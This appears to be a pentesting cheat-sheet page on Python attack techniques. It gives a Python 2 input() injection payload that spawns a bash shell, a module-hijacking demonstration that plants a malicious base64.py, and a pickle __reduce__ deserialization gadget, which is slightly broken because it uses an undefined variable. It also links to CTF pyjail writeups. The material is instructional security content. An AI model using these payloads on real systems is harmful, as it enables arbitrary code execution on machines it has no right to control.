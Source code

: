 # Python

## python2 input

In python 2, the `input` function worked in an interesting manner.  It queried for user input, executed the input given to it directly, allowing us to, for example, have an integer returned directly from the result of the function.  However, this also allowed any arbitrary code to be injected.  In cases where you have a python 2 style input mechanism, simply write the following:

```py
__import__('os').system('/bin/bash')
```

In python 3 this was removed, and `raw_input` from python 2 replaced it.

## Module Overwrite

Consider the following program:

```py
import base64
print base64.b64decode('VW5pY29ybidzIGFyZSBraWNrIGFzcyE=')
```

Running it will output a base64 decoded string:

```bash
root@kali:~/pyexample# python example.py
Unicorn's are kick ass!
```

Let's create a file called base64.py in the same folder and include within it the following:

```py
def b64decode(oldinput):
    return 'Welcome to my Evil Function!'
```

Now we get a very different output:

```bash
root@kali:~/pyexample# ls
base64.py  base64.pyc  example.py
root@kali:~/pyexample# python example.py
Welcome to my Evil Function!
```

In module importing, the interpreter will first check the local directory before checking the installed modules.  Consequently, it is more than possible to take over a python scripts execution, even if we don't have write-access to it.

A good reference for how these things work is [this Stackoverflow post](https://stackoverflow.com/questions/31849378/whats-the-order-python-used-to-import-module).

## Pickle Deserialization

During pickle deserialization, it is possible to create a situation where arbitrary code is executed.  This is because the `reduce` method defines how the object itself is de-serialized, and so will be executed when `pickle.loads` is called. 

```py
import subprocess
class BadPickle(object):
    def __reduce__(self):
        return (subprocess.check_output, (chars,))

print cPickle.dumps(BadPickle())
```

**Further Reading**  
[https://blog.nelhage.com/2011/03/exploiting-pickle/](https://blog.nelhage.com/2011/03/exploiting-pickle/)  
[https://sensepost.com/blog/2010/playing-with-python-pickle-%231/](https://sensepost.com/blog/2010/playing-with-python-pickle-%231/)  
[https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html)

## CTF Writeups

These are a collection of CTF writeups that may prove helpful if you find yourself against a Python Jail or environment.  Since it's such a popular language a python jail, such as [lshell](https://github.com/ghantoos/lshell), can be a surprisingly common vulnerability.

[PlaidCTF - Pyjail with character restrictions](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/)

